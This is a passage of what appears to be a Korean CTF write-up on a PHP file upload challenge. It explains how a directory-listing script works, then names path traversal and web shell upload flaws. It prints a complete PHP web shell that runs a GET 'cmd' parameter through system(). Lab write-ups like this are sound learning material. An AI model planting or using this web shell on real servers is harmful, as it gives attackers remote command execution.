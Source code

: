 역시 공통 네비게이션바 부분을 제외한 코드이며, `$scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));` 부분을 먼저 살펴보자.

`scandir()` 함수는 인자로 전달 받은 디렉토리에 존재하는 파일과 디렉토리 목록을 배열로 만들어서 리턴하는 함수이다.

여기서 `array_diff()`는 두 번째 인자에 전달된 값을 제외하기 때문에, `$scaned_directory` 변수에는 `..`, `.`, `index.html`을 제외한 `$directory` 내의 파일과 디렉토리 목록이 배열로 저장될 것이다.

그리고 바로 아래에서 반복문을 통해, 해당 배열에 접근하면서 HTML 태그를 활용하여 배열에 저장된 파일 이름과 해당 파일에 접근하는 하이퍼링크를 생성한다.

예를 들어, `$scanned_directory`에 아래와 같이 저장되어 있었다면, 세 개의 태그가 `<li>` 태그가 생성되어 각 파일에 접근할 수 있을 것이다.

```
$scanned_directory = array(
    0 => 'file1.txt',
    1 => 'file2.png',
    2 => 'file3.html',
);
```

실행 결과는 아래와 같다.

```
echo "<li><a href='./uploads/file1.txt'>file1.txt</a></li><br/>";
echo "<li><a href='./uploads/file2.png'>file2.png</a></li><br/>";
echo "<li><a href='./uploads/file3.html'>file3.html</a></li><br/>";
```

# Exploit

해당 문제에서는 **Path Traversal** 취약점과 **웹 셸 업로드** 취약점이 존재한다.

Path Traversal 취약점을 통해서 원하는 위치에 임의 파일을 업로드할 수 있긴 하지만, 서버에서 실행되는 파일의 이름을 찾아서 덮어써야 하고, 해당 파일이 어디에 위치하는지와, 업로드할 파일의 이름에 `../`과 같은 특수 문자를 넣는 방법이 쉽지 않다.

따라서, 간단히 **php 웹 셸**을 업로드하여, 해당 파일을 조회했을 때 서버의 셸을 획득할 수 있도록 익스플로잇 해볼 수 있다.

```
// https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
<html><body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form><pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?></pre></body></html>
```

위는 `HTML` 태그를 통해 `form`을 생성하여 폼의 입력을 `cmd`에 저장하고, `system` 함수의 인자로 전달하는 웹 셸이다.

해당 파일을 `.php` 확장자로 전달하면 `CGI`를 통해 해당 파일이 `list.php`에서 조회될 때 실행되어 셸을 획득하고, `form`을 통해 명령어를 전달할 수 있을 것이다.
